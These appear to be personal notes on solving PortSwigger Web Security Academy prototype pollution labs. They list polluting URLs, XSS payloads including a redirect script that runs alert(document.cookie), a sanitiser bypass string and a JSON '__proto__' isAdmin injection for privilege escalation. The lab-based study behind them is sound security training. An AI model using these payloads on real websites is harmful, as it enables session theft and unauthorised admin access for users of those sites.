 Client side

Lab 1

view-source:https://0a0d0019048a47d3802ed00900d20097.web-security-academy.net/resources/js/deparam.js

view-source:https://0aba007904a9a65f82091ff4000a007d.web-security-academy.net/resources/js/searchLogger.js

https://0a0d0019048a47d3802ed00900d20097.web-security-academy.net/?search=asdasdasd&__proto__[transport_url]=BURP

https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance

https://portswigger.net/web-security/prototype-pollution

deparam will cause the prototype pollution

xss is found in the searchlogger

Lab 2

https://0a38000004f03c7580ae80ae0095000a.web-security-academy.net/?search=test&__proto__.sequence=123 (pollution)

https://0a38000004f03c7580ae80ae0095000a.web-security-academy.net/?search=test&__proto__.sequence=)};alert();// 

view-source:https://0a38000004f03c7580ae80ae0095000a.web-security-academy.net/resources/js/searchLoggerAlternative.js

view-source:https://0a38000004f03c7580ae80ae0095000a.web-security-academy.net/?search=test

deparam will cause the prototype pollution

xss is found in the searchlogger

Lab 3

view-source:https://0ae0001e048863d8804e8ade005f0070.web-security-academy.net/resources/js/deparamSanitised.js

view-source:https://0ae0001e048863d8804e8ade005f0070.web-security-academy.net/resources/js/searchLoggerFiltered.js

https://0ae0001e048863d8804e8ade005f0070.web-security-academy.net/?search=asdasdasd&__pro__proto__to__[transport_url]=asd

Lab 4 

https://portswigger.net/research/widespread-prototype-pollution-gadgets

https://0a2600e8045ba6d0825456d000010074.web-security-academy.net/#__proto__[hitCallback]=alert%281%29

use dom xss invader

only way... cant really find the function

<script>
window.location = "https://0a2600e8045ba6d0825456d000010074.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>

Lab 5

https://0a1e00b3049cea5683c4f0b600120060.web-security-academy.net/?search=asdasd&__proto__[value]=asdasdasdasd

basically what happens is that you can add Object.prototype.value

so when we defineproperty without setting the value parameter, it overrides the value parameter

https://0a1e00b3049cea5683c4f0b600120060.web-security-academy.net/?search=asdasd&__proto__[value]=data:,alert(1);

Server Side 

Lab 1

"__proto__": {
    "isAdmin":true
}

update address

p straight forward








